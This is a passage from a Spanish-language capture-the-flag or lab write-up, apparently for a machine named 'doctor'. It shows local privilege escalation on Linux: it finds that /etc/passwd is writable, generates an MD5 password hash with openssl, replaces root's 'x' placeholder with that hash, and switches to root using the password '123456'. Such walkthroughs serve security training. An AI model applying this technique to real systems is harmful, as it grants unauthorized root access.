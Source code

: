 ### Enumeration

#### Writable Files

```
find / -writable -type f 2>/dev/null |grep -viE "var|proc|sys|home"
```

![[Pasted image 20250705000505.png]]

```
admin@doctor:~$ ls -l /etc/passwd
```

![[Pasted image 20250705000531.png]]

El **usuario** **`admin`** dispone de **permisos de escritura** sobre el archivo **`/etc/passwd`**.
Mediante el **password** **`123456`** creo un **hash** con [openssl](https://linux.die.net/man/1/openssl)

```
admin@doctor:~$ openssl passwd -1 123456
```

![[Pasted image 20250705000702.png]]

```
$1$MPtnHmQZ$ndcxxjXBm23HwPkCRA8IU.
```

En la línea del **usuario** **`root`**, elimino la **`x`** y pego el **hash** previamente creado para que la validación del **password** se realice desde el archivo **`/etc/passwd`** en lugar del archivo **`/etc/shadow`**

```
admin@doctor:~$ cat /etc/passwd | grep root
```

![[Pasted image 20250705000907.png]]

```
admin@doctor:~$ nano /etc/passwd
admin@doctor:~$ grep root /etc/passwd
```

![[Pasted image 20250705001348.png]]

Me convierto en **usuario** **`root`**

```
su root
//Contraseña: 123456
id 
```

![[Pasted image 20250705001435.png]]
